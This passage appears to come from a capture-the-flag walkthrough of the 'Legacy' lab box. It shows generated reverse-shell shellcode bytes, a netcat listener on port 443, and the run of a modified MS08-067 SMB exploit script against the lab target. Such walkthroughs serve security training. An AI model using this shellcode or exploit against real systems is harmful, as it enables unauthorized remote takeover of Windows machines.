 ```bash
buf += b"\x76\x0e\x84\xf6\xc9\xb0\x83\xee\xfc\xe2\xf4\x78\x1e"
buf += b"\x4b\xb0\x84\xf6\xa9\x39\x61\xc7\x09\xd4\x0f\xa6\xf9"
buf += b"\x3b\xd6\xfa\x42\xe2\x90\x7d\xbb\x98\x8b\x41\x83\x96"
buf += b"\xb5\x09\x65\x8c\xe5\x8a\xcb\x9c\xa4\x37\x06\xbd\x85"
buf += b"\x31\x2b\x42\xd6\xa1\x42\xe2\x94\x7d\x83\x8c\x0f\xba"
buf += b"\xd8\xc8\x67\xbe\xc8\x61\xd5\x7d\x90\x90\x85\x25\x42"
buf += b"\xf9\x9c\x15\xf3\xf9\x0f\xc2\x42\xb1\x52\xc7\x36\x1c"
buf += b"\x45\x39\xc4\xb1\x43\xce\x29\xc5\x72\xf5\xb4\x48\xbf"
buf += b"\x8b\xed\xc5\x60\xae\x42\xe8\xa0\xf7\x1a\xd6\x0f\xfa"
buf += b"\x82\x3b\xdc\xea\xc8\x63\x0f\xf2\x42\xb1\x54\x7f\x8d"
buf += b"\x94\xa0\xad\x92\xd1\xdd\xac\x98\x4f\x64\xa9\x96\xea"
buf += b"\x0f\xe4\x22\x3d\xd9\x9e\xfa\x82\x84\xf6\xa1\xc7\xf7"
buf += b"\xc4\x96\xe4\xec\xba\xbe\x96\x83\x09\x1c\x08\x14\xf7"
buf += b"\xc9\xb0\xad\x32\x9d\xe0\xec\xdf\x49\xdb\x84\x09\x1c"
buf += b"\xe0\xd4\xa6\x99\xf0\xd4\xb6\x99\xd8\x6e\xf9\x16\x50"
buf += b"\x7b\x23\x5e\xda\x81\x9e\xc3\xba\x8a\xfc\xa1\xb2\x84"
buf += b"\xf7\x72\x39\x62\x9c\xd9\xe6\xd3\x9e\x50\x15\xf0\x97"
buf += b"\x36\x65\x01\x36\xbd\xbc\x7b\xb8\xc1\xc5\x68\x9e\x39"
buf += b"\x05\x26\xa0\x36\x65\xec\x95\xa4\xd4\x84\x7f\x2a\xe7"
buf += b"\xd3\xa1\xf8\x46\xee\xe4\x90\xe6\x66\x0b\xaf\x77\xc0"
buf += b"\xd2\xf5\xb1\x85\x7b\x8d\x94\x94\x30\xc9\xf4\xd0\xa6"
buf += b"\x9f\xe6\xd2\xb0\x9f\xfe\xd2\xa0\x9a\xe6\xec\x8f\x05"
buf += b"\x8f\x02\x09\x1c\x39\x64\xb8\x9f\xf6\x7b\xc6\xa1\xb8"
buf += b"\x03\xeb\xa9\x4f\x51\x4d\x29\xad\xae\xfc\xa1\x16\x11"
buf += b"\x4b\x54\x4f\x51\xca\xcf\xcc\x8e\x76\x32\x50\xf1\xf3"
buf += b"\x72\xf7\x97\x84\xa6\xda\x84\xa5\x36\x65"
```
We'll copy this shellcode into the appropriate section within our selected code. Additionally, note that the usage details for the code call on us to identify what OS we're exploiting. Before we run our exploit we'll start a netcat listener on port 443:

```bash
┌──(root💀dc20505)-[~/legacy]
└─# nc -nlvp 443
listening on [any] 443 ...
```

# Exploit
```bash
┌──(root💀dc20505)-[~/legacy]
└─# python ms08_067_2018.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################

$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .

#######################################################################
```